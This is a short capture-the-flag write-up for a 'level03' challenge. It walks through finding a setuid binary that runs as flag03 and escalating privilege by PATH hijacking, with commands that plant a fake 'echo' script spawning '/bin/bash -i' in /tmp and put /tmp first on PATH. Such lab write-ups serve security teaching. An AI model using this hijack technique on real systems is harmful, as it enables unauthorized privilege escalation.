 ## Solution

* Found executable in user home
```console
~$ ls
level03
```

* Looking at permissions
```console
~$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```
level03 is executed as flag03! Lets exploit it

* Deassembly using Ghidra dogbolt

```
iVar1 = system("/usr/bin/env echo Exploit me");
```
Executable is calling echo from env  
Lets modify path to launch a malicious echo

* Malicious echo in /tmp/ (for permissions)

```console
~$ touch echo
...
~$ cat echo
#!/bin/bash
/bin/bash -i
~$ chmod +xwr echo
```

* Lets change path so that our malicious echo is called BEFORE the true echo

```console
~$ export OLD_PATH=$PATH
~$ export PATH=/tmp:$PATH
```

* Launch the executable

```console
~$ whoami
flag03
```
We are flag03 !

* Restore old path
```console
~$ export PATH=$OLD_PATH
```
